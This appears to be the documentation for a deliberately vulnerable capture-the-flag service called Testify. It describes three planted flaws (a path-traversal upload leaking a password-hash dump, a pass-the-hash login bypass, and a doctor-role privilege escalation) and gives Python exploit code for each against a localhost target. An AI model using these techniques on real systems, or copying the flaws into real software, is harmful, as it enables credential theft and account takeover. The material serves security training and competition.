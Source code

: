 Testify Service documentation
======================

# <ins>Vulnerabilities (3)

The Testify Service consists of three different Vulnerabilities. Two of them must be exploited after each other to access FLAGSTORE #1.
The third VULN leads to FLAGSTORE #2

## VULN #1: User Password Hash Exposure

- Category: Sensitive Data Exposure
- Difficulty: Medium

When registering a new user, a `.sql` dump file of the user database containing the password hashes is created.  
The attacker can retrieve this dump file by using a modified file name when uploading his ID in the appointments
section.

## VULN #2: Pass-The-Hash

- Category: Authentication
- Difficulty: Medium

The password is not allowed to contain any special characters other than ASCII. If the user passes a password string,
that does include non-ASCII characters (*e.g. a password hash obtained by VULN#1*) the hashing of the input password
string is skipped and directly compared to the hash in the user credential databse.


## VULN #3 User Privilege Escalation

- Category: User Privelege Administration
- Difficulty: Easy

When a user makes an appointment, an additional info for the doctor is submitted optionally (FLAGSTORE). This info can only
be viewed by a doctor having set the `is_doctor` attribute in the DB (doctor01,...,doctor05). However the `check_doctor()` 
function also checks whether the accessing user shows up as a assigned doctor in the `appointment` table of the DB. If so, 
the user is also considered a doctor and access to the info field (FLAGSTORE) of any user is granted.

# <ins>Exploits

Two different exploits for VULN#1 and VULN#2 need to be run after each other to obtain a flag.

## VULN #1 :

1. Make an appointment containing a file with arbitrary content but using the filename `../online_users/dump.sql`
2. In the appointments overview section: Use the *Download ID* button to download the hijacked `dump.sql` file

### Code

```
        self.register(username, password)
        self.http_get('/about')
        
        filename = '../online_users/dump.sql'

        app_id = self.make_appointment(prename, lastname, filename, date, time, file, 'doctor0' + str(random.randint(1, 5)), pin)
        route = '/get_id' + str(app_id)

        kwargs = {
            'allow_redirects': True
        }

        res = self.http_get(route, **kwargs)
        sql_string = res.content.decode('ascii').splitlines()
        user_list = [i.split(',')[1:3] for i in sql_string]
```

## VULN #2 :

1. Retrieve a user/hash pair from .sql dump file using VULN #1
2. Pass this hash as base64 to `/login` route.
3. Search response appointment content for flag

### Code

```
    def pass_the_hash(user, hash):
        obj = {
                'username': user,
                'password': base64.b64encode(bytes.fromhex(hash)).decode('ascii'),
                'login': 'signin'
        }
        req = requests.post('http://localhost:8597/login', data=obj)
        return req.text
```

## VULN #3 :

1. Create appointment with a new user while stating this user as the doctor in the make_appointment form (using POST-request)
2. Access the `/doctors` page to retrieve the info for the users returned by `/about` page 

### Code

```
    self.register(username, password)

    app_id = self.make_appointment(prename, lastname, filename, date, time, file, username, pin)

    text = self.http_get('/about').text
    splits = text[text.find('onlineUsers'):].split('&#39;')
    splits = splits[1:]
    del splits[1::2]
    for s in splits:
        kwargs = {'data': {'patient_username': s},
                  'allow_redirects': True}
        pot_flag = self.http_post('/doctors', **kwargs)

        if flag := self.search_flag(pot_flag.text):
            return flag
```